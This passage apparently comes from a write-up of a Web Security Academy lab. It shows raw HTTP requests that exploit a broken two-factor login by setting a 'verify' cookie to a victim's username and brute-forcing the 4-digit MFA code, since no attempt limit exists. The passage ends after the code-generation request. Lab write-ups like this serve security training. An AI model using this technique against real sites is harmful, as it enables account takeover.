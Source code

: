The `/login2` endpoint generates the `mfa-code` for the username specified in the cookie and sent that code to its email account. We can send that `mfa-code` with the POST request like the following.
```
POST /login2 HTTP/2
Host: 0a3d00cc03f7404ac10e3a54004a00d4.web-security-academy.net
Cookie: verify=wiener; session=S1SDZaLeZsSKXJ3M7bVnq3Hfv1Yg9id2
Content-Length: 13
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a3d00cc03f7404ac10e3a54004a00d4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

mfa-code=0102
```

If the code is correct they will redirect us to `/my-account`.

```
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=TKgrNSLUO1oq9COyQyerjbny5lTEZDjS; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

If the code is not correct they show an error message.

```
Incorrect MFA code.
```

The site doesn't enforce any MFA brute force protection and the MFA code is only 4 digit code so we can easily brute force any user's code and access its account using the following method.

- Sent the GET request to the `/login2` endpoint with the cookie set to the victim username.
```
GET /login2 HTTP/2
Host: 0a3d00cc03f7404ac10e3a54004a00d4.web-security-academy.net
Cookie: verify=carlos; session=S1SDZaLeZsSKXJ3M7bVnq3Hfv1Yg9id2
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
```

This will generate an MFA code for that user.
